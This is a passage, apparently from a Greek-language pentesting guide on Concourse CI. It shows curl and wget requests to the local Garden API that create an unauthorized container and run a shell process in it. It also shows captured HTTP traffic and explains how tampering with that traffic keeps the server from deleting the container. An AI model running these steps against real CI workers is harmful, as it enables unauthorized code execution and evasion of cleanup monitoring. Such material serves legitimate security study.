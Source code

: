 Μπορείτε πολύ εύκολα να δημιουργήσετε ένα νέο container (απλά εκτελέστε ένα τυχαίο UID) και να εκτελέσετε κάτι σε αυτό:
```bash
curl -X POST http://127.0.0.1:7777/containers \
-H 'Content-Type: application/json' \
-d '{"handle":"123ae8fc-47ed-4eab-6b2e-123458880690","rootfs":"raw:///concourse-work-dir/volumes/live/ec172ffd-31b8-419c-4ab6-89504de17196/volume","image":{},"bind_mounts":[{"src_path":"/concourse-work-dir/volumes/live/9f367605-c9f0-405b-7756-9c113eba11f1/volume","dst_path":"/scratch","mode":1}],"properties":{"user":""},"env":["BUILD_ID=28","BUILD_NAME=24","BUILD_TEAM_ID=1","BUILD_TEAM_NAME=main","ATC_EXTERNAL_URL=http://127.0.0.1:8080"],"limits":{"bandwidth_limits":{},"cpu_limits":{},"disk_limits":{},"memory_limits":{},"pid_limits":{}}}'

# Wget will be stucked there as long as the process is being executed
wget -v -O- --post-data='{"id":"task2","path":"sh","args":["-cx","sleep 20000"],"dir":"/tmp/build/e55deab7","rlimits":{},"tty":{"window_size":{"columns":500,"rows":500}},"image":{}}' \
--header='Content-Type:application/json' \
'http://127.0.0.1:7777/containers/ac793559-7f53-4efc-6591-0171a0391e53/processes'
```
Ωστόσο, ο διακομιστής web ελέγχει κάθε λίγα δευτερόλεπτα τα containers που τρέχουν, και αν ανακαλυφθεί κάποιο απροσδόκητο, θα διαγραφεί. Καθώς η επικοινωνία γίνεται μέσω HTTP, θα μπορούσατε να παραποιήσετε την επικοινωνία για να αποφύγετε τη διαγραφή των απροσδόκητων containers:
```
GET /containers HTTP/1.1.
Host: 127.0.0.1:7777.
User-Agent: Go-http-client/1.1.
Accept-Encoding: gzip.
.

T 127.0.0.1:7777 -> 127.0.0.1:59722 [AP] #157
HTTP/1.1 200 OK.
Content-Type: application/json.
Date: Thu, 17 Mar 2022 22:42:55 GMT.
Content-Length: 131.
.
{"Handles":["123ae8fc-47ed-4eab-6b2e-123458880690","ac793559-7f53-4efc-6591-0171a0391e53","c6cae8fc-47ed-4eab-6b2e-f3bbe8880690"]}

T 127.0.0.1:59722 -> 127.0.0.1:7777 [AP] #159
DELETE /containers/123ae8fc-47ed-4eab-6b2e-123458880690 HTTP/1.1.
Host: 127.0.0.1:7777.
User-Agent: Go-http-client/1.1.
Accept-Encoding: gzip.
```
## Αναφορές

* https://concourse-ci.org/vars.html

{% hint style="success" %}